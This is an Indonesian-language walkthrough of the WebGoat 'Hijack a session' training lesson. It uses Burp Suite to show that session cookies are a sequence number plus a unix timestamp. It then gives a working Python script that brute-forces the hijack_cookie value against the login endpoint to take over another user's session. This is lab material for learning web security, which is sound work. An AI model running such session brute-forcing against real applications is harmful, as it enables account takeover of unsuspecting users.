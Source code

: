 # Hijack a session
Pengembang aplikasi yang mengembangkan ID sesi mereka sendiri sering lupa untuk memasukkan kompleksitas dan keacakan yang diperlukan untuk keamanan. Jika ID sesi khusus pengguna tidak rumit dan acak, maka aplikasi tersebut sangat rentan terhadap serangan brute force berbasis sesi.

- Hidupkan tool Burp Suite terlebih dahulu, lalu akses halaman `http://<IP_Server>:8080/WebGoat/start.mvc?username=testing#lesson/HijackSession.lesson/1` kemudian masukkan username `tom` dan password `tom` lalu tekan tombol **Access**. Anda juga bisa memasukkan username dan password secara bebas sesuai keinginan anda

- Buka tool Burp Suite, maka terdapat terdapat request yang mengarah ke path URL `/WebGoat/HijackSession/login` bertipe `POST`


- Klik kanan request tersebut lalu pilih **Send to Repeater**


- Pindah ke tab Repeater dan klik tombol **Send**

- Tekan tombol **Send** berulang kali sambil mengamati pola perubahan nilai pada `hijack_cookie`

- Pada percobaan diatas kita mencatat perubahan nilai `hijack_cookie` sebagai berikut
```sh
6096954623810981710-1718181739783
6096954623810981712-1718181785192
6096954623810981713-1718181801395
6096954623810981714-1718181818085
```
- Seperti yang kita ketahui bahwa nilai `hijack_cookie` terdiri dari `nomor urut-unix time`. Nomor urut tersebut bertambah 1 untuk setiap pengulangan request. Ada juga yang langsung bertambah 2. Jika bertambah 2 maka kemungkinan nilai `hijack_cookie` sebelumnya sudah terbentuk karena sudah melakukan login terlebih dahulu. Untuk nilai unix time akan muncul sesuai waktu user melakukan login sehingga kita perlu melakukan brute force untuk menemukan waktu login yang sesuai dengan user tersebut. Berdasarkan daftar diatas, kemungkinan nomor urut user anonim adalah `6096954623810981711` lalu untuk unix time berada di rentang `1718181739783` hingga `1718181785192`. Disini kita menggunakan program python untuk melakukan brute force dengan source code sebagai berikut:
```sh
import requests

url = 'http://IP_Server:8080' #ubah url sesuai url server anda

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': url+'/WebGoat/start.mvc?username=testing',
    'Origin': url,
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'X-Requested-With': 'XMLHttpRequest',
    'Cache-Control': 'no-cache',
    'Pragma': 'no-cache'
}
#ubah sesuai username dan password yang anda gunakan
form_data = {
    'username':'xxx',
    'password':'xxx'
}

step = 1
#ubah rentang sesuai unix time di Burp Suite anda
for i in range(39782, 85193):
	#ubah sesuai nilai yang tampil pada Burp Suite anda
	hijack_cookie = '6096954623810981711-17181817'+str(i)
	#ubah nilai JSESSIONID sesuai nilai JSESSIONID yang muncul di Burp Suite anda
	headers.update({'Cookie': 'JSESSIONID=xxx; hijack_cookie='+hijack_cookie})
	response = requests.post(url+'/WebGoat/HijackSession/login', data=form_data, headers=headers)
	if 'false' in response.text:
		json_response = response.json()
		print('{} feedback: {}'.format(step, json_response['feedback']))
		response.close()
	else:
		print('hijack_cookie'+hijack_cookie)
		print(response.text)
		response.close()
		break
	step+=1

```
- Simpan source diatas dengan nama `hijack_session.py` lalu jalankan program diatas
```sh
python3 hijack_session.py
```


- Jika percobaan diatas belum berhasil, anda perlu mengganti nomor urut dan rentang unix time lainnya hingga menemukan hasil yang sesuai